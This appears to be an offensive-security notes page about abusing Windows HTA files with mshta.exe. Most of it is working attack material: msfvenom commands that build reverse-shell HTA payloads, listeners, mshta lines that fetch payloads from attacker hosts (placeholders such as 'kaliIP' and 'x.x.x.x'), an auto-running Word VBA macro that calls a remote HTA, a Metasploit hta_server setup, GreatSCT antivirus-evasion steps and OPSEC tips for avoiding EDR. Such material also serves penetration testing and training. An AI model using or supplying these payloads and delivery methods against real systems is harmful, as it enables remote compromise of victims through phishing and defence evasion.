

<Callout type="info" title="Concept Overview">
An **HTA file** (`.hta`) is an HTML Application that combines HTML with scripting languages (VBScript or JavaScript). Unlike standard web pages, HTA files are executed by the Windows Script Host (`mshta.exe`) outside the browser sandbox, giving them full access to local system resources, the file system, and the OS. Attackers heavily abuse HTA files to bypass Mark-of-the-Web (MotW) protections and deliver malicious payloads.

**MITRE ATT&CK Mapping:**
* [T1218.005 - System Binary Proxy Execution: Mshta](https://attack.mitre.org/techniques/T1218/005/)
* [T1204.002 - User Execution: Malicious File](https://attack.mitre.org/techniques/T1204/002/)
</Callout>




---

## How HTA Files Work

<Callout type="info" title="Execution Mechanism">
* **HTML-based:** Uses standard HTML for the user interface.
* **Scripting:** Contains scripts (JS/VBScript) that can read/write files, access system processes, and use `ActiveXObject` (e.g., `WScript.Shell`).
* **Standalone:** Executed directly by `mshta.exe`, making it a fully self-contained application that bypasses browser security restrictions.
</Callout>

<AccordionGroup>
  <Accordion title="Basic Example: Opening Calc.exe">
    This simple HTA file uses JavaScript to run `calc.exe` via the Windows Script Host.
    ```hta
    <html>
      <head>
        <title>Open Calculator</title>
        <HTA:APPLICATION 
            ID="oHTA"
            APPLICATIONNAME="OpenCalculator"
            BORDER="thin"
            SINGLEINSTANCE="yes" />
        <script language="javascript">
            // Run calc.exe using the Windows Script Host
            var payload = "calc.exe"
            new ActiveXObject("WScript.Shell").Run(payload); 
        </script>
      </head>
      <body>
        <h1>Loading Application...</h1>
        <script>
            self.close();
        </script>
      </body>
    </html>
    ```
    *Execution:* Users can run it by double-clicking, or from CMD/Run: `mshta.exe http://kaliIP/poc.hta`
  </Accordion>
</AccordionGroup>

---

## Attack Methods

<Tabs>
  <Tab title="Method 1: msfvenom + Manual Delivery">
    <Callout type="danger" title="Generating HTA with msfvenom">
    `msfvenom` can convert a standard reverse shell payload into a PowerShell-based HTA file.
    </Callout>

    <Steps>
      <Step title="Step 1: Generate Payload & Listener">
        ```bash
        # Generate the HTA file (Notice: fixed typo to shell_reverse_tcp)
        msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x LPORT=4444 -f hta-psh -o malware.hta

        # Start a simple HTTP server
        python3 -m http.server 8080

        # Start a Netcat listener
        nc -vnlp 4444
        ```
      </Step>
      <Step title="Step 2: Delivery">
        *Send the following command to the victim (e.g., via phishing or interactive shell):*
        ```cmd
        mshta.exe http://kaliIP:8080/malware.hta
        ```
      </Step>
    </Steps>
  </Tab>

  <Tab title="Method 2: VBA Macro Integration">
    <Callout type="danger" title="Weaponizing Word Macros to call HTA">
    Instead of putting the payload directly inside the macro (which AV catches easily), the macro simply calls the remote HTA file using `mshta.exe`.
    </Callout>

    <Steps>
      <Step title="Step 1: Generate the HTA & Start Web Server (On Kali)">
        ```bash
        msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x LPORT=4444 -f hta-psh -o malware.hta
        python3 -m http.server 8080
        nc -vnlp 4444
        ```
      </Step>
      <Step title="Step 2: VBA Code (Inside Word Macro)">
        *Save the Word document as `Word 97-2003 Document (*.doc)`*
        ```vba
        Sub AutoOpen()
            payload
        End Sub

        Sub Document_open()
            payload
        End Sub

        Sub payload()
            Dim url As String
            Dim ps As String
            url = "http://x.x.x.x:8080/malware.hta"
            ps = "mshta.exe " & url
            ' Fixed spelling: vbNormalFocus
            Shell ps, vbNormalFocus
        End Sub
        ```
      </Step>
    </Steps>
  </Tab>

  <Tab title="Method 3: Metasploit `hta_server`">
    <Callout type="danger" title="Using Metasploit HTA Server">
    Instead of generating a static file, Metasploit can host an HTA server that dynamically delivers the payload and handles the session automatically.
    </Callout>

    <Steps>
      <Step title="Step 1: Configure & Run Metasploit">
        ```bash
        msfconsole -q
        msf6 > use exploit/windows/misc/hta_server
        msf6 > set SRVHOST x.x.x.x
        msf6 > set SRVPORT 8080
        msf6 > set LHOST x.x.x.x
        msf6 > set LPORT 4444
        msf6 > set payload windows/meterpreter/reverse_tcp
        msf6 > exploit
        ```
      </Step>
      <Step title="Step 2: Execute on Victim">
        *Metasploit will output a URL (e.g., `http://x.x.x.x:8080/random.hta`). Run it on the victim:*
        ```cmd
        mshta.exe http://x.x.x.x:8080/random.hta
        ```
      </Step>
    </Steps>
  </Tab>

  <Tab title="Method 4: GreatSCT & AV Evasion">
    <Callout type="danger" title="Bypassing Antivirus with GreatSCT">
    Modern Windows Defender easily flags `msfvenom`'s `hta-psh` format because it uses known PowerShell signatures. **GreatSCT** (Great Source Code Training) generates obfuscated HTA payloads that bypass standard AV signatures.
    </Callout>

    <Steps>
      <Step title="Step 1: Generate Payload with GreatSCT">
        ```bash
        # Clone and install GreatSCT
        git clone https://github.com/GreatSCT/GreatSCT.git
        cd GreatSCT
        ./GreatSCT.py

        # Inside GreatSCT:
        use 1 # (Bypass)
        use 16 # (mshta)
        generate <payload_name> # (e.g., windows/meterpreter/reverse_tcp)
        set LHOST x.x.x.x
        set LPORT 4444
        generate
        # GreatSCT will create an obfuscated .hta file
        ```
      </Step>
      <Step title="Step 2: Host and Execute">
        ```bash
        # Host the obfuscated file
        python3 -m http.server 80
        ```
        ```cmd
        :: Execute on victim (Looks like a standard HTA call, but bypasses AV)
        mshta.exe http://kaliIP/obfuscated_payload.hta
        ```
      </Step>
    </Steps>
  </Tab>
</Tabs>

---

## OPSEC Notes

<Callout type="warning" title="Operational Security (OPSEC)">
* `mshta.exe` making outbound network connections is heavily monitored by EDRs. 
* To increase stealth, attackers often download the `.hta` file to disk using `certutil` or PowerShell, and then execute it locally to blend in with normal user activity.
</Callout>
